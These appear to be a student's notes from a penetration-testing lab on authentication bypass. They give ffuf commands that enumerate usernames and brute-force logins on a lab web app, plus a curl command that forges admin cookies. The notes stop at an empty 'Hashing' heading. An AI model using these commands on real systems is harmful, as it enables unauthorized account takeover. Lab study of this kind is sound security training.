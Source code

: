 # **Authentication Bypass**

---

## **Username Enumeration**

`fuff` : enumeration tool

[Fuff Github]( https://github.com/ffuf/ffuf)

creating a list of valid usernames

exemple of use :

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/signup -mr "username already exists"
```

- `-w` :  file's location on the computer that contains the list
- `-X` : request method to use
- `-d` : specifies the data the FUZZ word will be replaced by the word in the list
- `-H` : add additional headers
- `-u` : url
- `-mr` : text we are looking for to validate we've found a valid output.

---

## **Brute Force**

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/login -fc 200
```

-fc argument to check for an HTTP status code other than 200.

---

## **Logic Flaw**

![](images/logicflaw.png)

---

## **Cookie Tampering**

he contents of some cookies can be in plain text, and it is obvious what they do.

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.10.131.133/cookie-test
```

### **Hashing**

